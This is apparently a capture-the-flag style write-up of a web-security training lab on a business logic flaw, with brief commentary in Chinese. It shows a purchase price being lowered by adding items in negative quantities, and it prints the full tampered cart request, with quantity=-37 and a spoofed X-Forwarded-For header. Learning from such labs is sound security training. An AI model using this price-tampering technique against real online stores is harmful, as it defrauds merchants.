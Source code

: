 # Lab: High-level logic vulnerability

This lab doesn't adequately validate user input. You can exploit a logic flaw in its purchasing workflow to buy items for an unintended price. To solve the lab, buy a "Lightweight l33t leather jacket".

You can log in to your own account using the following credentials: wiener:peter

## Business Logic Vulnerabilities
* 題目說要買指定的商品，這個時候就是考驗小學數學的時候，因為我們可以買負數的數量，所以加加減減在 100 以內就可以了，記得目標商品一定要是正數
```
POST /cart HTTP/1.1
Host: acb41f0b1eb786e0c06658b3009a008d.web-security-academy.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_5 (Ergänzendes Update)) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.1.1 Safari/605.1.15
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-TW,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Origin: https://acb41f0b1eb786e0c06658b3009a008d.web-security-academy.net
Connection: close
Referer: https://acb41f0b1eb786e0c06658b3009a008d.web-security-academy.net/cart
Cookie: session=i7JwNHWDKKbHuWLxJyOTCc2X2RtjNjae
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
X-Forwarded-For: 127.0.0.1

productId=2&quantity=-37&redir=CART
```